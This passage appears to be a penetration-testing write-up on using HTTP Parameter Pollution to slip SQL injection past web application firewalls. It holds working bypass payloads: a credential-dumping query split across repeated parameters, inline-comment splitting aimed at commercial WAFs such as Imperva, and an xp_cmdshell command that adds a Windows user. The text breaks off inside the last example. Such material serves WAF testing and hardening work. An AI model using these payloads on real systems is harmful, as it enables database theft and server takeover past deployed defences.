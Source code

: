 		What would happen with WAFs that do Query String parsing before applying filters ? (HPP can be used even to bypass WAFs)
	Some loose WAFs may analyze and validate a single parameter occurrence only (first or last one). Whenever the deal environment concatenates
	multiple occurrences (ASP, ASP.NET, DBMan,) an aggressor can split the malicious payload.

		In a recent penetration test (Again), we were able to bypass a Imperva SecureSphere using "HPP+Inline Comment" on ASP/ASP.NET environment.
	This technique can bypass other Commercial WAFs too. More information about "HPP+Inline Comment" show below:	

	
	#Real World Example:

	1. Mod Security CRS (Credit: Lavakumar Kuppan)
		
		The following request matches against the ModSecurity CRS as a SQL Injection attack and is blocked.
		
		Forbidden: http://victim.com/search.aspx?q=select name,password from users

		When the same payload is split against multiple parameters of the same name ModSecurity fails to block it.

		Bypassed : http://victim.com/search.aspx?q=select name&q=password from users

		
		Let's see what's happen, ModSecurity's interpretation is
		
		q=select name
		q=password from users

		ASP/ASP.NET's interpretation is
		q=select name,password from users

		*Tip: This attack can be carried out on a POST variable in a similar way


	2. Commercial WAFs
		
		Forbidden: http://victim.com/search.aspx?q=select name,password from users

		Now we use HPP+Inline comment to bypass it.

		Bypassed : http://victim.com/search.aspx?q=select/*&q=*/name&q=password/*&q=*/from/*&q=*/users

		
		Analyzing, WAF's interpretation is

		q=select/*
		q=*/name
		q=password/*
		q=*/from/*
		q=*/users
		
		ASP/ASP.NET's interpretation is
		q=select/*,*/name,password/*,*/from/*,*/users
		q=select name,password from users


	3. IBM Web Application Firewall (Credit: Wendel Guglielmetti Henrique of Trustwave's SpiderLabs)
		
		Forbidden: http://victim.com/news.aspx?id=1'; EXEC master..xp_cmdshell net user zeq3ul UrWaFisShiT /add --
